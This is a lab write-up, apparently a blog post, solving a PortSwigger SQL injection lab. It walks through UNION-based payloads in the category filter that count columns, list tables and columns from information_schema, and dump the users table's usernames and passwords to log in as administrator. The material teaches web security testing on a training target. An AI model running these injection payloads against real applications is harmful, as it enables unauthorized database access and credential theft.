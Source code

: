 ```yaml
---
title: PortSwigger - SQLi 9 - Listing contents on non-Oracle DB
date: 2023-05-16
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the ``administrator`` user.

## ✅ Solution

Find the number of columns:

````sql
<website>/filter?category=Gifts'UNION SELECT NULL--                 # error! 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL--            # works 
<website>/filter?category=Gifts'UNION SELECT NULL,NULL,NULL--       # error!  
````

We know 2 columns are returned by the query. Is one containing string?

````sql
<website>/filter?category=Gifts'UNION SELECT 'abc',NULL--        # works
<website>/filter?category=Gifts'UNION SELECT 'abc','abc'--       # works
````

We don't know the name of the table storing the credentials. We have to list all the tables:

````sql
<website>/filter?category=Gifts'UNION SELECT table_name,NULL FROM information_schema.columns--
````

179 tables are returned... But after sorting those containing `user` one stands out: `users_ijvpsp`.

Let's print the differents columns of the table:

````sql
<website>/filter?category=Gifts' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ijvpsp'--
````

We obtain 2 columns: `username_gifugn` and `password_zjiaqz`.

Time to show the passwords!

````sql
/filter?category=Pets' UNION SELECT username_gifugn, password_zjiaqz FROM users_ijvpsp--
````

Password obtained!
